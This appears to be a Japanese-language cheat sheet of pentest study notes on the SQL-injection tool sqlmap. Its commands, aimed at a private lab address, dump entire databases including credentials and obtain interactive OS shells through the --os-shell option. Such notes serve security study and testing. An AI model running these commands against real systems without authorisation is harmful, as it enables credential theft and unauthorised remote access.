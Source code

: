 # sqlmap
[公式ページ](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## 概要
sqlmapはKaliにデフォルトでインストールされている。  
SQLiのプロセスはsqlmapを使って様々なDBエンジンに対するSQLiの脆弱性を特定・悪用ができる。  


## コマンド集

-u => ターゲットを指定
-p => テストするパラメータを指定
--dump => ユーザ認証情報を含めてDB全体をダンプする

簡単なSQLiテストのコマンド実行。  
userパラメータの後ろにダミーで1を指定しており、Time-based SQLiを行う。
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

> [!NOTE]  
> sqlmapは大量のトラフィックが発生するため、ステルス性はゼロに等しい。ステルス性を重視する場合は使用しない方が良い。


-r => Burp等で取得したPOSTリクエストをtxt形式で保存しておき、それを引数としてとる  
-p => パラメータ。POSTの中にある脆弱なパラメータを指定する。  
--os-shell => 以下の--web-rootと一緒にオプションに含め、対話的にシェルを取る  
--web-root => 書き込み可能なカスタムフォルダを指定  


ターゲットのWebアプリケーションと対話的にやり取りをするためのコマンド。Time-based SQLiだと時間がかかるという場合に便利。
```
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```

3. Burpから取得しておいたget.txtのリクエストを-rで引数指定。searchパラメータに対する値をインジェクションのポイントにする。--os-shellでシェルを獲得する。  
```
sqlmap -r get.txt -p search --os-shell
```